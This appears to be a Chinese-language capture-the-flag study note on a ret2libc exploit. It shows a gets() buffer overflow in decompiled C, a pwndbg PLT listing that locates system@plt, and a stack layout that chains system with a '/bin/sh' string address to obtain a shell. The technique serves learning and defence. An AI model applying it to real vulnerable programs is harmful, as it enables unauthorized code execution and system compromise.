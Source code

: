 反汇编

```C
int __cdecl main(int argc, const char **argv, const char **envp) {
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF
  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets(s);
  return 0;
}
```

由于动态链接`syscall`不一定能全部集齐对`eax,ebx,ecx,edx`的控制，但查看`plt`时发现`system@plt`表项

```C
pwndbg> plt
0x8048430: gets@plt
0x8048440: time@plt
0x8048450: puts@plt
0x8048460: system@plt <-------------- system@plt 表项
0x8048470: __gmon_start__@plt
0x8048480: srand@plt
0x8048490: __libc_start_main@plt
0x80484a0: setvbuf@plt
0x80484b0: rand@plt
0x80484c0: __isoc99_scanf@plt
```

因此`ret2libc`的关键是跳转到`plt`表的`system`表项，查看plt表中`_system`表项的地址，即`0x08048460`

![_system_addr](D:\github\pwn\pwn_study\images\_system_addr.png)

除了跳转到`system@plt`的地址，还需要布置栈帧设置参数

> system("/bin/sh")实际上是system函数接收的是在`.rodata`中的`address`

```
stack 
high_addr
--------------------
"/bin/sh" addr        <--- 只能是"/bin/sh" addr,因为作为string, "/bin/sh"存放于.rodata section,并不在栈上
--------------------
exit()                <--- 或者垃圾数据'b'*4,由于原ret_addr跳转后相当于会有call system,这时候栈结构应该是需要有一 
                           个返回地址的(作为函数system的函数返回地址),即  (high)|param|old eip|(low)
--------------------
system@plt            <--- 原 return address
--------------------
low_addr
```

实际上参数应该为`0x08048720`

> 查找字符串：ctrl + shift + F12，双击跳转

![string_sh_rodata](D:\github\pwn\pwn_study\images\string_sh_rodata.png)
